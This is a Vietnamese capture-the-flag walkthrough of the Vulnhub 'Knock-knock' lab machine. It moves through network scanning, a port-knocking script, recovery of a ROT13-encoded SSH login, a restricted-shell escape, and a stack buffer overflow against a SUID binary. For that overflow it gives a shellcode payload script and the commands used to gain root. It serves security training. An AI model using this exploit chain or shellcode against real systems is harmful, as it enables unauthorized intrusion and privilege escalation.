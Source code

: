 # Knock - knock Vulnhub Walkthrough
## Bước 1: Dò quét
Tìm Ip của VM knock knock
netdiscover -i eth0 -r 192.168.18.0/24
![image](https://hackmd.io/_uploads/S19I4xy8a.png)
![image](https://hackmd.io/_uploads/rywwNlkUT.png)


knock knock có IP là 192.168.18.143
Dùng nmap scan version và OS 
nmap -sT -sV -O 192.168.18.143
![image](https://hackmd.io/_uploads/HkS9Vl1U6.png)

nmap bị chặn scan version và OS
scan port
	nmap 192.168.18.143 -p-
![image](https://hackmd.io/_uploads/SyV6Vg186.png)

phát hiện port 1337 đang mở
Thử telnet vào port đó 
	telnet 192.168.18.143 1337
![image](https://hackmd.io/_uploads/BkkbBlyIp.png)

Nhận được 3 giá trị có vẻ như là các port 
Port Knocking là một kỹ thuật để kiểm soát quyền truy cập vào một cổng bằng cách chỉ cho phép người dùng hợp pháp truy cập vào dịch vụ đang chạy trên máy chủ. Nó hoạt động theo cách mà khi thực hiện đúng trình tự kết nối, tường lửa sẽ mở cổng đã bị đóng.

Dùng script để tự động connect đến các port này
script.py
```python=
#!/usr/bin/python 
import socket
import itertools
import sys
destination = "192.168.18.143"

def clean_up_ports (raw_string):
	if len(raw_string) <= 0:
		return None
	# Remove the first [
	raw_string = raw_string.replace('[','')
	# Remove the second ]
	raw_string = raw_string.replace(']','')
	#split by commas
	first_list = raw_string.split(',')
	# start e empty return list
	ports = []
	for port in first_list:
	# strip the whitespace around the string
	# and cast to a integer
		ports.append(int (port.strip()))
	return ports
def main():
	print "[+] Getting sequence"
	try:
		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		sock.connect((destination, 1337))
	except Exception as e:
		print "[+] Unable to connect to %s on port 1337. %s" % (destination, e) 
		sys.exit(1)
	# receive the list 
	raw_list = sock.recv(20)
	# get the ports in a actual python list
	ports = clean_up_ports (raw_list)
	print "[+] Sequence is %s" % ports
	print "[+] Knocking on the door using all the possible combinations...\n"
	# Lets knock all of the possible combinations of the ports list
	for port_list in itertools.permutations (ports):
		print "[+] Knocking with sequence: %s" % (port_list,) 
	for port in port_list:
		print "[+] Knocking on port %s:%s" % (destination, port) 
		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
		sock.settimeout(0.1)
		sock.connect_ex ((destination, port)) 
		sock.close()
	print "[+] Finished sequence knock\n"
if __name__  =='__main__':
	print "[+] Knock knock opener"
	main()
	print "[+] Done"
```



![image](https://hackmd.io/_uploads/BkrEBe1UT.png)

Bây giờ tiến hành scan lại 
 nmap -p-  192.168.18.143

![image](https://hackmd.io/_uploads/SJMIrgy8a.png)

Truy cập trên trình duyệt 

![image](https://hackmd.io/_uploads/B1_DBeJLp.png)

Xem mã nguồn thấy không có gì đặc biệt chỉ có ảnh knocknock.jpg

![image](https://hackmd.io/_uploads/SkrFSxy8a.png)

Dùng wfuzz tìm các file bị ẩn nhưng không có gì đặc biệt
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc 404 http://192.168.18.143/FUZZ

Tải ảnh bên trên về máy
wget http://192.168.18.143/knockknock.jpg

Dùng strings thấy một thông tin đăng nhập có vẻ được mã hóa 

![image](https://hackmd.io/_uploads/SyHqHeJIp.png)

Đây là mã caesar với ROT 13 
Decode bằng Cyberchef 

![image](https://hackmd.io/_uploads/Syvsre1Ua.png)

Thu được:
nosaJ
fnk2Pj9Bj
Nhìn có vẻ hơi ngược khi đảo ngược lại 
Jason
jB9jP2knf
Đây có lẽ là tài khoản SSH của user Jason
username: Jason
password: jB9jP2knf

## Bước 2: Khai thác Buffer Overflow 

![image](https://hackmd.io/_uploads/H16CrlJ86.png)

Login SSH thành công.

Tìm thấy chương trình “tfc” có quyền SUID
![image](https://hackmd.io/_uploads/rkAyLgy8a.png)

Đây là chương trình mã hóa tập tin, đối số thứ nhất là tệp đầu vào (văn bản thuần túy) và đối số thứ hai là tệp đầu ra (văn bản mật mã), cả đầu vào và đầu ra đều phải có đuôi .tfc.
Do shell hạn chế nên cần gọi shell từ python để bypass
![image](https://hackmd.io/_uploads/HkQzLxyL6.png)

python -c "import pty; pty.spawn('/bin/bash')"

![image](https://hackmd.io/_uploads/HkomIxJUT.png)

Encrypt thử file in.tfc

![image](https://hackmd.io/_uploads/SkwOUekIT.png)

Có thể thấy khi đảo ngược thứ tự file thì sẽ giải mã được 
Bây giờ chúng ta hãy thử một file lớn để xem nó có lỗ hổng Tràn bộ đệm hay không.

![image](https://hackmd.io/_uploads/SyFYIlkLa.png)

Có tồn tại Buffer overflow
Dùng tool [checksec.sh](https://www.trapkit.de/tools/checksec/) để kiểm tra 

![image](https://hackmd.io/_uploads/HJThLe18a.png)

không có bất cứ sự bảo vệ nào 
Do gdb chưa được cài đặt trên máy mục tiêu nên ta phải tải chương trình tfc xuống Kali của mình để phân tích thêm.
scp jason@192.168.18.143:tfc /
Hoặc gửi từ máy mục tiêu scp tfc kali@192.168.18.145:tfc

![image](https://hackmd.io/_uploads/HJyR8eJIp.png)


Dùng gdb phân tích

![image](https://hackmd.io/_uploads/B1a0Ue18T.png)

Tại sao ở đây là 0x0675c916 mà không phải  là 0x41414141? 
Tiếp theo, cần tìm đâu là độ lệch để chỉ cần thay đổi EIP. Sau khi thử một số độ dài khác nhau và kiểm tra giá trị của địa chỉ trả lại bằng gdb. Cuối cùng đã tìm thấy phần bù để ghi đè lên địa chỉ trả về (4124 byte).

Do 4 'A' luôn bắt đầu bằng cùng một byte 'def0 5bab' trong tệp được mã hóa, Vì vậy, 'def0 5bab' có thể được sử dụng như một mẫu để xác định vị trí dữ liệu được mã hóa trong tệp core.

![image](https://hackmd.io/_uploads/HkWWwlyL6.png)
![image](https://hackmd.io/_uploads/rkmMPg186.png)


Tiếp theo, sử dụng msfelfscan để lấy địa chỉ jmp esp.
msfelfscan -j esp /root/tfc

![image](https://hackmd.io/_uploads/rJImDxJLp.png)

Dùng linux / x86 / exec để tạo shellcode
![image](https://hackmd.io/_uploads/BJ4rDlJ8T.png)

Tạo file payload.py
```python=
#/usr/bin/python

shellcode = "\xdb\xc6\xd9\x74\x24\xf4\x5a\xb8\x7e\xda\xf3\x36\x31\xc9\xb1\x0b\x83\xea\xfc\x31\x42\x16\x03\x42\x16\xe2\x8b\xb0\xf8\x6e\xea\x17\x99\xe6\x21\xfb\xec\x10\x51\xd4\x9d\xb6\xa1\x42\x4d\x25\xc8\xfc\x18\x4a\x58\xe9\x13\x8d\x5c\xe9\x0c\xef\x35\x87\x7d\x9c\xad\x57\xd5\x31\xa4\xb9\x14\x35"

content = 'A' * 4124
content += "\x93\x8e\x04\x08"               # 0x08048e93 jmp esp
content += "\x90" * 20                       # padding 20 NOPs to protect shellcode
content += shellcode
content += 'C' * (5000 - 4124 - 4 -20 -70)  # padding with 'C'

print content
```




copy core ra file exp.tfc bỏ qua 239056byte (từ 3a5d0 hex)
dd if=core of=exp.tfc skip=239056 count=5000 bs=1
![image](https://hackmd.io/_uploads/HJnOPxk86.png)

Chạy thử trên máy kali đã lên đc root 
![image](https://hackmd.io/_uploads/rkstPg1LT.png)

Bây giờ tải exp.tfc lên máy mục tiêu và khai thác 

![image](https://hackmd.io/_uploads/SyIiwl18T.png)

Lấy được flag

![image](https://hackmd.io/_uploads/r1P2wgJLa.png)



